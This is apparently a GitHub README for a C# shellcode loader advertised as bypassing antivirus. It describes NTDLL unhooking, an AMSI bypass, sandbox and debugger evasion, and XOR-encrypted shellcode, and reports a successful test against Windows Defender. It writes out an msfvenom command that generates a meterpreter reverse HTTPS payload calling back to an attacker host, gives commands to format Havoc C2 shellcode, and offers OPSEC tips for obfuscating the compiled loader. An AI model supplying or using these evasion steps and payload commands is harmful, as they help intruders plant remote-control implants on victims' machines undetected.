 ### C# ShellCode Loader
--------------------------------------
A quick and dirty C# shellcode loader that implements several antivirus bypass and defense evasion techniques. <br> 

<i/>Note: I simply reused and modified codes from various Github projects.</i>

#### FEATURES
  - Classic shellcode injection technique using the function 'NtCreateThreadEx'  (=>To do next: upgrade with a better injection technique)
  - Shellcode encryption (XOR)
  - NTDLL unhooking (it loads a fresh new copy of ntdll.dll via file mapping and imports functions from this ntdll.dll)
  - AMSI bypass
  - Basic sandbox detection/evasion techniques
    - Exit if the program is running on a computer that is not joined to a domain
    - Exit if after sleeping for 15s, time did not really passed
    - Exit if a debugger is attached
    - Exit if making an uncommon API call fails (i.e. we are running in an AV sandbox that can't emulating it)
  - Compatible with shellcodes of multiple C2 frameworks such as: Metasploit, Silver and Havoc
    
#### TESTS
- Succesfully tested on a Windows 10 x64 laptop (target) with Windows Defender enabled (without 'Automatic sample submission') and shellcodes of multiple C2 frameworks (in C# format & encrypted with XOR cipher algorithm)

#### INPUT (Shellcode formats)
Your shellcode must be in C# format (see examples below) and then encrypted using XOR cipher algorithm.
Obviously, both the encrypted shellcode and your XOR key must be added in the file 'CsharpShellCodeLoader.cs' before you compile it.

- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o  shellcode```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### COMPILATION 
- I used "Developer PowerShell for VS 2022":
  - Microsoft (R) Visual C# Compiler version 4.5.0-6.23123.11
  - Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs

#### OPSEC Advices
- The file 'CsharpShellCodeLoader.cs' is not obfuscated. Class/function/variable names should be changed and all comments must be deleted or modified before compiling this file.
- Once compiled, if you want to compress and obfuscate the shellcodeloader executable you can use packers like "ConfuserEx" (but it is not necessary in order to bypass most AV solutions).
  
